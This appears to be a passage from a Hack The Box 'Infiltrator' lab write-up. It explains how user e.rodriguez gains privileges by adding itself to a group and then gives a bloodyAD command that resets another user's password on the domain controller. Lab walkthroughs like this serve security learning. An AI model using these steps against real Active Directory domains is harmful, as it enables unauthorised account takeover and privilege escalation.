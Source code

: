 The user E.RODRIGUEZ@INFILTRATOR.HTB has the ability to add itself, to the group CHIEFS MARKETING@INFILTRATOR.HTB. Because of security group delegation, the members of a security group have the same privileges as that group.

By adding itself to the group, E.RODRIGUEZ@INFILTRATOR.HTB will gain the same privileges that CHIEFS MARKETING@INFILTRATOR.HTB already has.

![[Pasted image 20240904202011.png]]


```bash
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos -u "e.rodriguez" -p 'Password123' set password "m.harris" "Password123"
```

